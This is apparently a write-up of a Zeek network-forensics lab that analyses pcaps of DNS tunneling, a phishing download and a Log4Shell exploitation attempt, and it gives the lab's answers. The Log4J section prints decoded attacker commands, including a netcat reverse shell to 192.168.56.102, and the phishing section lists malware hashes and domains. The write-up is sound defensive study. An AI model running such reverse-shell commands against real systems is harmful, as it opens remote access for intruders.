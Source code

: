 

## Task 2: Anomalous DNS

**Objective**: Investigate `dns-tunneling.pcap` to confirm "Anomalous DNS Activity" by analyzing `dns.log` and `conn.log` for DNS records, connection duration, unique queries, and source host.

**Directory**: `/home/ubuntu/Desktop/Exercise-Files/anomalous-dns/`

**Steps** :
1. Navigated to the task directory:
   ```bash
   cd /home/ubuntu/Desktop/Exercise-Files/anomalous-dns/
   ls
   ```
   - Files: `dns-tunneling.pcap`, etc.

2. **Processed PCAP**:
   - Ran Zeek to generate logs (no specific script provided, so used default Zeek processing):
     ```bash
     zeek -Cr dns-tunneling.pcap
     ```
   - Generated logs: `dns.log`, `conn.log`, etc.

3. **Number of DNS records linked to IPv6 (AAAA)**:
   - Counted AAAA records in `dns.log`:
     ```bash
     cat dns.log | grep 'AAAA' | wc -l
     ```
     - Result: **320 records** .

4. **Longest connection duration**:
   - Extracted duration from `conn.log`:
     ```bash
     cat conn.log | zeek-cut service duration | sort -n
     ```
   - Identified longest duration: **9.420791 seconds** .

5. **Number of unique DNS queries**:
   - Extracted unique queries:
     ```bash
     cat dns.log | zeek-cut query | sort -n | uniq
     ```
   - Observed numerous `cisco-update.com` subdomains, then filtered non-Cisco:
     ```bash
     cat dns.log | zeek-cut query | sort -n | uniq | grep -v 'cisco'
     ```
   - Non-Cisco domains: 5 (e.g., `connectivity-check.ubuntu.com`, `0.f.2.5.6.b.e.f.f.f.b.7.2.4.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.8.e.f.ip6.arpa`).
   - Cisco subdomains: 1 unique .
   - Total unique queries: **6** .
   
6. **Source host IP**:
   - Inspected `conn.log`:
     ```bash
     cat conn.log | less
     ```
   - Identified source IP for DNS queries: **10.20.57.3** (to `10.10.2.22:53`) .



**Insights**:
- **Zeek Processing**: `zeek -Cr dns-tunneling.pcap` generates logs without requiring a script for basic analysis .
- **DNS Tunneling**: High-volume `cisco-update.com` subdomains indicate data exfiltration via DNS .
- **Zeek-Cut**: `zeek-cut query | sort -n | uniq` isolates unique domains .

---

## Task 3: Phishing

**Objective**: Investigate `phishing.pcap` to confirm a "Phishing Attempt" by analyzing logs for suspicious IPs, domains, and malicious files.

**Directory**: `/home/ubuntu/Desktop/Exercise-Files/phishing/`

**Steps** :
1. Navigated to the task directory:
   ```bash
   cd /home/ubuntu/Desktop/Exercise-Files/phishing/
   ls
   ```
   - Files: `phishing.pcap`, `hash-demo.zeek`, etc.

2. **Processed PCAP**:
   - Ran Zeek with `hash-demo.zeek` to extract file hashes:
     ```bash
     zeek -Cr phishing.pcap hash-demo.zeek
     ```
   - Generated logs: `conn.log`, `http.log`, `files.log`, etc.

3. **Suspicious source address**:
   - Inspected `conn.log`:
     ```bash
     cat conn.log | less
     ```
   - Identified suspicious source IP: **10[.]6[.]27[.]102** .

4. **Domain for malicious files**:
   - Analyzed `http.log`:
     ```bash
     cat http.log | less
     cat http.log | zeek-cut host uri status_msg info_msg orig_filenames orig_mime_types referrer
     ```
   - Found downloads from: **smart-fax[.]com** .

5. **File type of malicious document**:
   - Checked `files.log`:
     ```bash
     cat files.log | zeek-cut mime_type md5
     ```
   - MD5 `b5243ec1df7d1d5304189e7db2744128` (`application/msword`).
   - VirusTotal: **VBA** (macro-enabled Word document) .

6. **File name of malicious .exe**:
   - MD5 `cc28e40b46237ab6d5282199ef78c464` (`application/x-dosexec`).
   - VirusTotal: **PleaseWaitWindow.exe** .

7. **Contacted domain name**:
   - VirusTotal behavior for .exe: **hopto[.]org** .

8. **Request name of malicious .exe**:
   - From `http.log`, URI `/knr.exe`: **knr.exe** .

**Insights**:
- **Zeek Script**: `hash-demo.zeek` extracts MD5 hashes for VirusTotal .
- **Phishing Flow**: `10.6.27.102` downloaded `Invoice&MSO-Request.doc` (VBA), which ran `knr.exe`, contacting `hopto.org` .
- **Log Analysis**: `http.log` and `files.log` pinpoint malicious downloads .

---

## Task 4: Log4J 

**Objective**: Investigate `log4shell.pcap` with `detection-log4j.zeek` to confirm a "Log4J Exploitation Attempt."

**Directory**: `/home/ubuntu/Desktop/Exercise-Files/log4j/`

**Steps** (from previous response):
1. Navigated to the task directory:
   ```bash
   cd /home/ubuntu/Desktop/Exercise-Files/log4j/
   ls
   ```
   - Files: `log4shell.pcap`, `detection-log4j.zeek`.

2. **Number of signature hits**:
   - Ran Zeek:
     ```bash
     zeek -Cr log4shell.pcap detection-log4j.zeek
     ```
   - Checked `signatures.log`:
     ```bash
     cat signatures.log | zeek-cut event_msg
     ```
   - Result: **3 events** .

3. **Tool used for scanning**:
   - Inspected `http.log`:
     ```bash
     cat http.log | less
     ```
   - User-agent: **Nmap** .

4. **Extension of exploit file**:
   - `http.log` URIs (e.g., `/ExploitQ8v7ygBW4i.class`): **.class** .

5. **Name of created file**:
   - Decoded Base64 in `log4j.log` (via CyberChef):
     - `dG91Y2ggL3RtcC9wd25lZAo=`: `touch /tmp/pwned`
     - `d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==`: `which nc > /tmp/pwned`
     - `bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==`: `nc 192.168.56.102 80 -e /bin/sh -vvv`
   - Created file: **pwned** .

**Insights**:
- **Log4J Exploit**: JNDI lookups deliver `.class` files, executing commands like `touch /tmp/pwned` .
- **Nmap**: Probes Log4J vulnerabilities (CVE-2021-44228) .

---

